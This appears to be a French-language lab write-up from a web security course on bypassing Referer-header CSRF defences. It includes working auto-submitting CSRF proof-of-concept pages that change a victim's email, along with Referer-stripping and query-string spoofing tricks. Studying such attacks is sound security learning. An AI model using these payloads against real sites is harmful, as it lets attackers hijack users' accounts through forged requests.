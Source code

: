 > Contournement des défenses CSRF basées sur les référents

Outre les défenses utilisant des jetons CSRF, certaines applications utilisent l'en-tête HTTP `Referer` pour tenter de se défendre contre les attaques CSRF, généralement en vérifiant que la requête provient bien de leur propre domaine. Cette approche est généralement moins efficace et souvent contournée.

Referer = d’où vient la requête

## Validation of Referer depends on header being present

(La validation du référent dépend de la présence de l'en-tête | CSRF où la validation du référent dépend de la présence de l'en-tête )

Certaines applications valident l'en-tête `Referer` lorsqu'il est présent dans les requêtes, mais ignorent la validation si l'en-tête est omis.

> Dans ce cas, un attaquant peut concevoir son exploit CSRF de manière à ce que le navigateur de la victime **supprime l' en-tête `Referer` de la requête résultante**. Il existe plusieurs méthodes pour y parvenir, la plus simple étant d'utiliser une balise META dans la page HTML hébergeant l'attaque CSRF

```html
<html>
<head>
    <meta name="referrer" content="never">
</head>
  <body>
    <form action="https://0ae200a604a4d48ea6eb371300a100ff.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned@gmail.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Validation of Referer can be circumvented

(La validation du référent peut être contournée)

Certaines applications font une vérification naïve du header `Referer`. Par exemple, si elles testent seulement que l’URL du `Referer` **commence** par `vulnerable-website.com`, un attaquant peut créer une URL suivante pour tromper la vérification:

```
http://vulnerable-website.com.attacker-website.com/...
```

De même, si l’application se contente de vérifier que la chaîne `vulnerable-website.com` **est contenue** quelque part dans le `Referer`, l’attaquant peut la cacher dans les paramètres comme suite et passer la validation.

```
http://attacker-website.com/... ?vulnerable-website.com
```

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="iamhunter404&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?web-security-academy.net/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

```
POST /my-account/change-email HTTP/1.1
Referer: https://attacker.example/?web-security-academy.net/
email=iamhunter404%40gmail%2Ecom
```

De nombreux navigateurs suppriment désormais par défaut la chaîne de requête de l'en-tête de référent par mesure de sécurité. Pour contourner ce comportement et garantir que l'URL complète est incluse dans la requête ajouter ceci

```http
Referrer-Policy: unsafe-url
```
